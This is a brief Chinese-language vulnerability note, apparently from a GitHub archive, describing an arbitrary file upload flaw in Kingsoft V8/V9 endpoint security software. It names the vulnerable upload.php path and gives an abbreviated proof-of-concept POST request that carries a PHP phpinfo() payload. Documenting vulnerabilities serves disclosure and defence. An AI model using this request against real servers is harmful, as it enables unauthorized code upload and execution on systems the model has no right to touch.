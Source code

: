# 金山 V8 V9 终端安全系统 文件上传漏洞

# 金山 V8 V9 终端安全系统 文件上传漏洞

## 漏洞描述

参考链接：

- https://forum.butian.net/share/76

## 漏洞复现

在tools目录下的mange下存在一个upload.php。该文件可导致任意文件上传。

poc：

```
POST /tools/manage/upload.php HTTP/1.1
HOST: target
...
<?php phpinfo(); ?>
```


